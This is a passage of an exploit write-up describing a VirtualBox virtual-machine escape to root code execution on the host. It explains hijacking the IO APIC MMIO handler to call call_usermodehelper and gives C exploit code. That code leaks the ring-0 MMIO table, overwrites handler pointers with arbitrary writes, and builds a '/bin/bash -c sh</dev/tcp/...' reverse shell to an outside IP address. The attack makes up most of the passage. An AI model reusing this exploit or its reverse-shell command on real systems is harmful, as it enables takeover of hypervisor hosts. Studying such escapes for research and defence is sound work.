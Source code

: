 ```c
// src/VBox/VMM/VMMAll/IOMAllMmioNew.cpp
// In function iomMmioHandlerNew

VBOXSTRICTRC rcStrict = PDMCritSectEnter(pDevIns->CTX_SUFF(pCritSectRo), rcToRing3);
if (rcStrict == VINF_SUCCESS)
{
    // .....omitted..................
    iomMmioDoWrite(pVM, pVCpu, pRegEntry, GCPhysFault, .....);
```

Because of this, if we modify `pDevIns` into `subprocess_info`, it will corrupt `pCritSectRo` and crash the program before it can reach `pfnWriteCallback`. In order to modify the `pDevIns` structure as less as possible, we'll have to find another kernel function to call. Luckily, there's `call_usermodehelper()`:

```c
int call_usermodehelper(const char *path, char **argv, char **envp, int wait);
```

We can see that the 1st argument is `const char *path`, a string that holds the path of the user space program. Testing shows that if we modify the first couple of bytes in `pDevIns` into `/bin/bash`, it won't crash the program before calling `pfnWriteCallback`. The 2nd argument is `char **argv`, which is totally controllable by us. The 3rd argument is `char **envp`, we can control the value and set it to `0`, making it a NULL pointer. The 4th argument is the `wait` argument. After looking at the source code of `call_usermodehelper`, we'll found that this value won't affect the execution of our user space program, so we don't need to take care of that either.

So to summarize how we can escape a non-root VirtualBox and achieve root RCE:

* We leak the address of ring-0 MMIO registration table ( `paRing0` ).
* We modify the IO APIC entry
    * Modify `pDevIns` into string `/bin/bash`.
    * Modify `pvUser` into our custom `char **argv`.
    * Modify `pfnWriteCallback` into `call_usermodehelper`.
* Trigger ring-0 MMIO write to execute our own command in user space with root privilege.

The code:

```c
// leak pGVM->iomr0.s.paMmioRegs (paRing0)
size_t paRing0 = arb_read(inst, code, (sll)(pGVM + 65336)); // g_pGVMM->aHandles[1]->pGVM->iomr0.s.paMmioRegs
printk(KERN_INFO "paRing0: %px\n", paRing0);

/* paRing0: Ring0 MMIO registration table, including entries for APIC, IO APIC, VGA, AHCI, E1000
 * We modify the entry of IO APIC
 */
size_t pDevIns = arb_read(inst, code, (sll)(paRing0 + 0x38 + 0x10)); // DeviceIOAPIC->pDevIns
printk(KERN_INFO "pDevIns: %px\n", pDevIns);
// Construct argv
size_t argv_buf = paRing0 + 0x120;
size_t c_buf = paRing0 + 0x160;
size_t sh_buf = paRing0 + 0x190;
// write command string
write_string(inst, code, (sll)pDevIns, "/bin/bash"); // pDevIns = "/bin/bash"
write_string(inst, code, (sll)c_buf, "-c");
write_string(inst, code, (sll)sh_buf, "sh</dev/tcp/192.168.72.130/44444");
// write argv pointers
arb_write(inst, code, (sll)(argv_buf), pDevIns); // argv[0] = pDevIns = "/bin/bash"
arb_write(inst, code, (sll)(argv_buf + 0x8), c_buf); // argv[1] = "-c";
arb_write(inst, code, (sll)(argv_buf + 0x10), sh_buf); // argv[2] = "sh</dev/tcp/192.168.72.130/44444";
arb_write(inst, code, (sll)(argv_buf + 0x18), 0); // argv[3] = NULL;
// overwrite DeviceIOAPIC
arb_write(inst, code, (sll)(paRing0 + 0x38 + 0x8), argv_buf); // DeviceIOAPIC->pvUser = argv buf
arb_write(inst, code, (sll)(paRing0 + 0x38 + 0x18), call_usermodehelper); // DeviceIOAPIC->pfnWriteCallback = call_usermodehelper
```